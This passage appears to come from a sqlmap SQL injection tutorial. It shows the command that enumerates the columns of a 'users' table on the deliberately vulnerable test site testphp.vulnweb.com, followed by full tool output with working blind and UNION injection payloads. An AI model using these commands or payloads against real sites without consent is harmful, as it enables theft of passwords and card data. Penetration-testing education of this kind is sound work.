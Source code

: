 4. Enumerate columns from table

   As we see in the table list, maybe the `users` contains the login information, so let's retrieve columns from it:

   ```
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart -T users --columns
   ```

   `-T`: the table to enumerate
   `--columns`: enumerate database table columns

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query" -D acuart -T users --columns
           ___
          __H__
    ___ ___[(]_____ ___ ___  {1.7.2#stable}
   |_ -| . [.]     | .'| . |
   |___|_  [)]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 05:16:53 /2023-04-20/

   [05:16:53] [INFO] resuming back-end DBMS 'mysql'
   [05:16:55] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [05:16:58] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [05:16:58] [INFO] fetching columns for table 'users' in database 'acuart'
   Database: acuart
   Table: users
   [8 columns]
   +---------+--------------+
   | Column  | Type         |
   +---------+--------------+
   | address | mediumtext   |
   | cart    | varchar(100) |
   | cc      | varchar(100) |
   | email   | varchar(100) |
   | name    | varchar(100) |
   | pass    | varchar(100) |
   | phone   | varchar(100) |
   | uname   | varchar(100) |
   +---------+--------------+

   [05:16:58] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   ```